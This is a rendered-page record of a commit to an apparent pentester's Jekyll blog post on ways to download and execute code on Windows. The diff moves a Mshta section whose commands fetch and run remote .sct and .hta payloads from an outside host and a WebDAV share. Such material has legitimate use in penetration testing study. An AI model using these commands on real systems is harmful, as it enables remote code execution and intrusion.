

Before and after one commit to Urahara3389/Urahara3389.github.io, a Jekyll site: the page built from _posts/2017-12-28-windows to download and execute arbitrary code.markdown, in a window 1280 px wide and 900 px high, scrolled down 2367 px. Shown: the whole window, without its empty margins (233-1233 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Windows上传并执行恶意代码的N种姿势

````diff
--- a/_posts/2017-12-28-windows to download and execute arbitrary code.markdown
+++ b/_posts/2017-12-28-windows to download and execute arbitrary code.markdown
@@ -90,21 +90,6 @@
 #### debug
 
 Windows debug 是一个系统自带的程序调试工具，他有一个功能可以将十六进制转化为可执行文件，所以我们的思路就是将需要上传的可执行文件转化成hex文件，通过echo命令写入目标系统中，最后通过debug将hex还原成可执行文件，这一部分具体步骤可参考我之前的一篇[文章](http://reverse-tcp.xyz/2017/05/27/Some-Ways-To-Create-An-Interactive-Shell-On-Windows/)
-
-#### Mshta
-
-Mshta实际上是一个与cscript/wscript相似，但是它具有执行内联脚本的能力，它将下载并执行一个脚本作为有效负载:
-
-```powershell
-mshta vbscript:Close(Execute("GetObject(""script:http://reverse-tcp.xyz/payload.sct"")"))
-```
-
-mshta接受URL作为一个参数来执行HTA
-
-```powershell
-mshta http://reverse-tcp.xyz/payload.hta
-mshta \\webdavserver\folder\payload.hta
-```
 
 #### FTP
 
@@ -352,6 +337,21 @@
 
 - https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/
 
+#### Mshta
+
+Msht具有执行内联脚本的能力，它将下载并执行一个脚本作为有效负载:
+
+```powershell
+mshta vbscript:Close(Execute("GetObject(""script:http://reverse-tcp.xyz/payload.sct"")"))
+```
+
+mshta接受URL作为一个参数来执行HTA
+
+```powershell
+mshta http://reverse-tcp.xyz/payload.hta
+mshta \\webdavserver\folder\payload.hta
+```
+
 #### FSI
 
 fsi.exe用于在控制台中交互式地运行fcode，或者执行fscript。
````
